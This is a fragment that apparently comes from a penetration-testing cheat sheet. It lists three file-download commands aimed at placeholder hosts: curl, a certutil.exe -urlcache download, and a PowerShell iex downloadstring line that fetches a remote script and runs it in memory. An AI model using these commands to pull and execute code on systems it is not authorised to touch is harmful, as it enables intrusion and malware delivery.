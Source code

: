 - `curl -o <filename> http://<server>`
- `certutil.exe -urlcache -f http://<IP ADDRRESS>/<file name> <file name>`
- `iex(new-object net.webclient).downloadstring('http://<IP>/<filename>')`